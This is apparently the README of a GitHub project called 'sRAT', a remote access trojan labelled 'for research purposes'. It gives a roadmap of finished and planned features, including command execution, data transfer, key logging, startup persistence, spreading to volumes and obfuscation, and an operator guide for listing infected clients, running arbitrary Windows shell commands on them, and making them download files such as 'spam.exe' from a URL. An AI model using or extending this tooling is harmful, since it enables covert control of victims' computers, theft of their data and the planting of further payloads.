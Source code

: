 # sRAT

A small remote access trojan, for research purposes.

## todo list

1. DONE: communication
    1. DONE: server host
    2. DONE: request syntax
2. features
    1. DONE: command exec
    2. DONE: data transfer
    3. *key logging*
3. infection
    1. startup
    2. copy on volumes
4. sneak
    1. obfuscation
    2. encryption

## git usage

Always use **branches** when implementing a *feature* or a *fix*, with syntax `yourName/feature/featureName` or `yourName/fix/bugToFix`, and be careful when merging.

## server usage

You may insert commands after the `>` prompt. At any time, you can list commands typing `help`.

### select client

To display all connected clients, use

	>list

It will output a two-column array, with ids and MACs of all connected clients. To selet a client, use `select ID`. For example,

	>list
	id     MAC address
	1234   AA-BB-CC-DD-EE-FF
	5678   00-11-22-33-44-55
	>select 1234
	Selected client 1234

Now the prompt should begin as follows:

	1234>

### execute a command

When a client is selected, make it execute a command with `exec YOUR_COMMAND`.

	1234>exec ipconfig
	Added command to stack

It might take up to 10 seconds to be sent to the client, and then, the output will show off. If client is using Windows, you can start any shell command with

	1234>exec cmd.exe /C YOUR_COMMAND

The output will be sent back to you.

### download a file

When a client is select, make it download a file with `dwnld FILE_URL LOCAL_FILENAME`.

	1234>dwnld https://i.imgur.com/v4kJFU3.gif test.gif

If you want to send a local file, you can use

	1234>dwnld file:\\\C:\\Users\\FOO\\Desktop\\spam.exe out.exe
